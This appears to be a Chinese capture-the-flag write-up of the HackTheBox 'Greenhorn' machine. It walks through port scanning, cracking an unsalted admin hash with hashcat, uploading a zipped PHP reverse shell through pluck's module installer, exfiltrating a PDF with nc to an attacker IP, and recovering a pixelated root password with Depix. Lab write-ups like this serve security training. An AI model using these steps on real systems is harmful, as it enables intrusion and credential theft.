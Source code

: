 ```yaml
---
description: Easy / 枚举 / 阅读源码 / 文件上传 / 图像解析
---
```


# ✔️ Greenhorn

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描，获得3个开放端口：

```bash
nmap -sC -sV -p- -oA greenhorn 10.129.61.36 --open
```

<figure><img src="../../.gitbook/assets/1 (9).png" alt=""><figcaption></figcaption></figure>

* 将IP和域名添加到/etc/hosts文件后，开始检查80端口上的内容，发现了目标正在运行的软件pluck和admin登录的入口：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 进入admin面板后发现了pluck的版本（4.7.18），随后尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 转到3000端口依次对其内容进行信息收集，发现其正在运行的是Gitea 1.21.11并且还有目标系统的源码：

<figure><img src="../../.gitbook/assets/8 (12).png" alt=""><figcaption></figcaption></figure>

* 其中有几个文件可以重点关注：admin.php / login.php

<figure><img src="../../.gitbook/assets/9 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (10).png" alt=""><figcaption></figcaption></figure>

* 在`login.php`这个文件中，其源码描述了关于用户登陆验证的过程。其中使用了SHA-512算法加密了密码(未加盐)，这意味着可以使用暴力破解。并且也指明了密码文件是pass.php：

<figure><img src="../../.gitbook/assets/11 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (10).png" alt=""><figcaption></figcaption></figure>

* `pass.php`位于/data/settings/pass.php该路径下，里面有一个hash密码，把它保存为一个hashes.txt文件用于后续暴破：

<figure><img src="../../.gitbook/assets/13 (11).png" alt=""><figcaption></figcaption></figure>

* 在hash example上查找对应的模式，用于hashcat暴破（不确定是哪种就附近几个都试一下）：

<figure><img src="../../.gitbook/assets/14 (9).png" alt=""><figcaption></figcaption></figure>

```bash
hashcat -m 1700 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/15 (9).png" alt=""><figcaption></figcaption></figure>

* 暴破出明文密码：<mark style="color:red;">**iloveyou1**</mark>，由此获得第一个有效凭证: <mark style="color:red;">**admin : iloveyou1**</mark>

<figure><img src="../../.gitbook/assets/16 (7).png" alt=""><figcaption></figcaption></figure>

* 利用该凭证成功登录80端口的admin界面：

<figure><img src="../../.gitbook/assets/17 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (7).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在信息枚举阶段获取到的Web页面运行的pluck 4.7.18确实是有一个远程代码执行的漏洞，但是在本例中的漏洞利用阶段仅起到了辅助作用，并未直接利用：

<figure><img src="../../.gitbook/assets/5 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 从该漏洞脚本中可以确认其上传文件的类型是zip类型，这为后续上传反弹shell做了提示：

<figure><img src="../../.gitbook/assets/7 (12).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 通过之前收集到的信息和发现的可利用脚本得知，可以往包含漏洞的目标系统上上传利用脚本，这里直接上传常用的一个php的反弹shell脚本（pentestmonkey），修改自己的kali本机IP和端口，做好监听:

<figure><img src="../../.gitbook/assets/21 (5).png" alt=""><figcaption></figcaption></figure>

* 本例中有两个可以上传的功能点，一个是manage files，一个是manage modules，分别尝试等待回连：

<figure><img src="../../.gitbook/assets/22 (5).png" alt=""><figcaption></figcaption></figure>

* 直接上传php脚本可以上传成功，但是无法触发，因为目标做了保护直接在我的脚本后面加了txt后缀：

<figure><img src="../../.gitbook/assets/23 (5).png" alt=""><figcaption></figcaption></figure>

* 根据之前找到的pluck 4.7.18远程代码执行漏洞的脚本提示，需要将上传的文件压缩成ZIP文件才可以成功执行，所以把反弹shell脚本压缩成ZIP文件：

```bash
zip revershell.zip revershell.php
```

<figure><img src="../../.gitbook/assets/24 (4).png" alt=""><figcaption></figcaption></figure>

* 再次上传发现还是可以成功，但仍然无法执行回连：

<figure><img src="../../.gitbook/assets/25 (3).png" alt=""><figcaption></figcaption></figure>

* 切换测试下一个上传点

### GET SHELL

* 可尝试用之前的有效凭证登录一下ssh服务，但是失败：

<figure><img src="../../.gitbook/assets/18 (8).png" alt=""><figcaption></figcaption></figure>

* 在manage modules中的install a module中尝试上传反弹shell：

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

* 至此，上传成功后即可获得回连的shell：

<figure><img src="../../.gitbook/assets/28 (4).png" alt=""><figcaption></figcaption></figure>

* 但是当枚举出user.txt文件后，发现没有权限访问其内容：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 因为该文件是位于junior用户的/home目录中，而我当前的用户是www-data，需要切换到junior账户下才能读取，这里又是一个密码重用的问题：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单的执行手动枚举时，发现当前账户junior并没有一些基本命令的执行权限：

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 并且在之前读取user.txt文件时，在其/home目录下还发现了一个PDF文件：Using OpenVAS.pdf

```bash
# 将远程文件传输到Kali本地：
nc 10.10.16.14 1234 < 'Using OpenVAS.pdf'
nc -lvnp 1234 > usingOpenVAS.pdf
```

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

* 该pdf文件描述了只有root用户可以使用\`sudo /usr/sbin/openvas\`命令，并且附上了密码，不过该密码被打上了码：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例学习到了一个新工具：Depix，该工具是用于将打了码的模糊图像恢复成文本的工具。提供给该工具进行解析的图片文件不要用截图工具，直接将鼠标放在模糊的文本处，save image as...即可保存。
{% endhint %}

* Depix的使用方法在它的GitHub页面有说明 ：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 运行Depix后解析出来了文本图片，该文本也就是root账户的明文密码，随后切换为root用户登录即可：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

* 重新连接一下：

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段枚举、阅读源码和对各个上传点的尝试是重点，提权部分不算典型的OSCP机型，图像解析的部分更偏向于CTF。该机器确实不属于困难机器，只是之前没有遇到过将打码图片转换为清晰图像的情况。

(本例机器中途重置过，IP地址有改变，但不影响其利用过程和实现结果)
{% endhint %}
